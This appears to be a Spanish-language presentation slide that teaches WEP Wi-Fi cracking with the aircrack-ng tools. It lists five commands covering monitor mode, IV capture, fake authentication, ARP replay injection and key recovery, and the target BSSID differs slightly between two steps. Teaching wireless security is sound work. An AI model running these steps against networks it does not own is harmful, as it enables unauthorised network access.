

# Crack al cifrado Wifi
¿Cómo crackear WEP utilizando Aircrack?
1: airmon-ng start eth1
2: airodump-ng --ivs --write capture eth1
3: aireplay-ng -1 0 -e SECRET_SSID -a 1e:64:51:3b:ff:3e -h a7:71:fe:8e:d8:25 eth1
4: aireplay-ng -3 -b 1e:64:51:eb:ff:3e -h a7:71:fe:8e:d8:25 eth1
5: aircrack-ng -s capture.ivs